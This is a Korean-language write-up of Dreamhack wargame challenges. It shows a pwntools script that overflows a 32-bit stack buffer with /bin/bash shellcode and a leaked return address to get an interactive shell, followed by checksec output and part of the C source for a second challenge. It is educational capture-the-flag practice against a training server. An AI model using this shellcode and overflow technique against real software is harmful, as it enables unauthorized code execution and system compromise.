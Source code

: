 

### 3. Payload
```py
from pwn import *

r= remote("host3.dreamhack.games",23029)

r.recvuntil("(")
buf = int (r.recv(10),16)
r.recvline()

payload =  b"\x31\xc0\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"
payload += b'A'* (0x80-len(payload))
payload += b'B' *0x4
payload += p32(buf)
print(payload)
#context.log_level = "debug"
r.sendline(payload)
r.interactive()
```
shellcode 가 없으므로 `shellcode`를 넣어줘야한다. <br>scanf를 우회할수있는 32bit 쉘코드는 `"\x31\xc0\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"`

buf크기 (0x80(shellcode 포함)) + SEP(0x4) + RET(0x4)

 
## assignment 2
[basic_exploitation_001](https://dreamhack.io/wargame/challenges/3)
### 1. 보호기법 확인
```c
//checksec 파일명 or checksec --file 파일명

Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


```